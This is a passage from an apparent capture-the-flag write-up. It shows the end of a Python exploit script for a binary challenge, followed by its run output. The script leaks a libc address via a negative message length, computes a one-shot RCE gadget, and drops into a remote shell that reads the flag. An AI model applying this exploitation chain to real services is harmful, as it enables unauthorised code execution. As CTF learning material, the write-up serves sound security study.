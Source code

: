 ```python

    print readtil('name?')
    s.send('a\n')
    print readtil('message:')
    s.send('-1\n')   # ty Swappage!
    print readtil('text:')
    s.send(payload+'\n')
    print readtil('Thanks!\n')
    
    data = s.recv(8)
    data = data[:-1] + "\x00\x00"
    
    puts_addr = struct.unpack('<Q', data)[0]
    print "[+] Leaked puts(): " + hex(struct.unpack('<Q', data)[0])
    libc_base = puts_addr - 0x70a30
    print "[+] libc base addr: " + hex(libc_base)
    system_addr = libc_base + 0x442AA # one shot rce, ty superkojiman!
    print "[+] sending one shot rce addr (" + hex(system_addr) + ")"
    
    s.send(q(system_addr))
    
    import telnetlib
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```

And in action:

```bash
bas@tritonal:~/bin/ccc/phobos$ python poc2.py 
> What's your name?
 
Hi, a
<randomjunk>
> Please input the length of your message:
 
> Please enter your text:
 
> Thanks!

[+] Leaked puts(): 0x7fa6830dda30
[+] libc base addr: 0x7fa68306d000
[+] sending one shot rce addr (0x7fa6830b12aa)
id
uid=1001(challenge) gid=1001(challenge) groups=1001(challenge)
cat flag.txt
CAMP15_0ae754f04a8782cba9a7ec2c69dc1274
```

It's quite nice to solve a 400 point challenge only to find out we can use nearly the same solution for an additional 300 points!

